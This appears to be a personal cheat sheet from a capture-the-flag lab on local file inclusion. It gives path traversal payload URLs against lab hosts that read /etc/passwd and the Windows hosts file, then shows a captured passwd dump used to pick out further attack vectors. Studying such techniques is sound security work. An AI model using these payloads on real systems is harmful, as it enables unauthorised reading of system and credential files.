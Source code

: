 # LFI
https://portswigger.net/web-security/file-path-traversal
https://portswigger.net/kb/issues/00100300_file-path-traversal
## Basic
```
# Take an example URL
http://unika.htb/index.php?page=french.html

# I suspect parameter page is vulnerable to LFI.
# Requesting below URL URL results ine error
http://unika.htb/index.php?page=/french.html
Error: Warning: include(/french.html): Failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 11

# I will try the following (Linux web server)
http://unika.htb/index.php?page=../../../etc/passwd
http://unika.htb/index.php?page=/etc/passwd

# On Windows web server
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
http://unika.htb/index.php?page=/windows/system32/drivers/etc/hosts
```

## Further exploitation
First let's exploit LFI to read `/etc/passwd` file
```
http://10.129.95.185/?file=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```
We see two interesting entries in the last lines:
- mike - local user
- tftp - running service
  
Now this gives me more info about potential attack vectors.
